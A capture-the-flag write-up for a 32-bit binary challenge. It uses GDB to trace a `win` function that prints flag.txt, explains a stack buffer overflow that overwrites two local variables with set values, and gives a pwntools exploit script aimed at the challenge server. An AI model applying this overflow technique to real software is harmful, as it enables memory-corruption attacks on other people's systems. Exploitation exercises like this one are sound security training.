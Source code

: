 The function appears to be opening a file, reading from it, and printing its contents. To understand what file it's opening, we need to examine the memory addresses being pushed before the `fopen` call:

```assembly
0x08048577 <+12>:	push   0x8048740
0x0804857c <+17>:	push   0x8048742
```

To see what strings these addresses point to, we can use GDB to examine them:

```
gdb-peda$ x/s 0x8048742
0x8048742:      "flag.txt"
gdb-peda$ x/s 0x8048740
0x8048740:      "r"
```

The `win` function:
1. Opens a file ("flag.txt") using `fopen()`
2. If successful:
   - Reads up to 0x80 (128) bytes from the file using `fgets()`
   - Prints the contents (our flag)
   - Closes the file
3. If the file can't be opened, prints an error message

## Understanding the Vulnerability

Examining the `vuln` function reveals a classic buffer overflow:

1. The buffer is at `[ebp-0x30]` and is 32 bytes in size (inferred from the stack layout)
2. The `read` call allows reading up to 40 bytes (0x28)
3. The variables we need to overwrite are:
   - `target1` at `[ebp-0xc]`
   - `target2` at `[ebp-0x10]`

This means we can overflow the 32-byte buffer to overwrite these variables.

To exploit this, we need to:
1. Fill the 32-byte buffer with padding
2. Set `target2` to 0xdecafbad
3. Set `target1` to 0xc0ff33

## Creating the Exploit

Since this is a 32-bit binary, we need to be mindful of the byte order (little-endian). Here's a Python script to generate our payload:

```python
from pwn import *

#p = process('./forbidden_recipe')

p = remote('chals1.apoorvctf.xyz','3002') 
padding = 32
target1 = p32(0xc0ff33)
target2 = p32(0xdecafbad)

payload = b'A' * padding+ target2 + target1

p.sendline(payload)
p.interactive()
```
